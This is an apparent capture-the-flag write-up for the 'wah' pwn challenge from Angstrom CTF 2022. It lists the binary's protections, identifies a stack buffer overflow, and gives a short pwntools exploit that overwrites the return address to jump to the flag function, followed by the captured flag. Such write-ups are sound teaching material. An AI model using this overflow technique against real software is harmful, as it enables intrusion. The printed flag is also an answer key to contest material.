 ```yaml
---
title: "[Pwn] wah [Angstrom CTF 2022]"
date: 2022-05-06 23:48:00
---
```


# 0x0 Introduction

Baby friendly!


nc challs.actf.co 31224

Author: JoshDaBosh

files: [wah](wah), [wah.c](wah.c)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


# 0x2 Vulnerability

simple buffer overflow, overwrite rip to `sym.flag`

# 0x3 Exploit

```
from pwn import *

io = connect("challs.actf.co",31224)
exe = context.binary = ELF("wah")

io.sendlineafter(b"Cry: ",flat({
    0x20+0x8: exe.sym["flag"]
}))
print(io.recv())

```

# 0x4 Flag

actf{lo0k_both_w4ys_before_y0u_cros5_my_m1nd_c9a2c82aba6e}
